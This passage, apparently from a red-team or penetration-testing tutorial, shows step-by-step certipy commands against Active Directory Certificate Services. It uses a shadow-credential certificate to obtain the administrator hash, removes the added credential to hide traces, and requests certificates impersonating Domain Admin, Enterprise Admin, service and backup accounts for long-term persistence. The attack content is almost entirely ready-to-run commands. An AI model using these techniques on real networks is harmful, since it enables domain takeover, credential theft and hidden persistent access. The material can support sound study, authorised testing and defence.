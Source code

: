 
**Authenticate:**

```bash
certipy auth -pfx administrator_shadow.pfx -dc-ip 192.168.1.10

# Obtain administrator hash
```

---

**Cleanup (Remove Shadow Credential):**

```bash
certipy shadow remove -u 'user@corp.local' -p 'Password123' \
    -target 'administrator' \
    -dc-ip 192.168.1.10

# Removes added credential (good OPSEC)
```

---

### Step 25: Certificate Persistence Techniques

**Using obtained certificates for long-term access:**

---

#### Technique 1: Certificate Expiry Monitoring

**Check certificate validity:**

```bash
# View certificate details
certipy cert -pfx administrator.pfx -export

# Output shows:
# Valid From: 2025-10-24
# Valid To: 2026-10-24  ← 1 year validity
```

**Plan:**
- Set reminder before expiry
- Re-request certificate using same technique

---

#### Technique 2: Multiple Certificate Extraction

```bash
# Request certificates for multiple high-value accounts

# Domain Admin
certipy req ... -upn 'DA-Admin@corp.local'

# Enterprise Admin
certipy req ... -upn 'EA-Admin@corp.local'

# Service Accounts (often never change passwords)
certipy req ... -upn 'sqlservice@corp.local'

# Backup Operators (can backup SAM/NTDS)
certipy req ... -upn 'backup-admin@corp.local'
```
